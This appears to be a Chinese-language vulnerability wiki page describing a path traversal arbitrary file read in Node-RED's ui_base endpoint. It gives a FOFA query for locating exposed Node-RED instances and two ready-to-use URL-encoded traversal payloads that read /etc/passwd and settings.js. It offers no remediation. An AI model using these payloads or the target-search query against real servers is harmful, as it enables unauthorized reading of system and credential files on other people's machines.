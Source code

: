 # Node-RED ui_base 任意文件读取漏洞

## 漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响

> [!NOTE]
>
> Node-RED

## FOFA

> [!NOTE]
>
> title="Node-RED"

## 漏洞复现

访问页面

![image-20210701185722667](http://wikioss.peiqi.tech/vuln/image-20210701185722667.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

验证POC

```
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![image-20210701185812622](http://wikioss.peiqi.tech/vuln/image-20210701185812622.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![image-20210704171045540](http://wikioss.peiqi.tech/vuln/image-20210704171045540.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)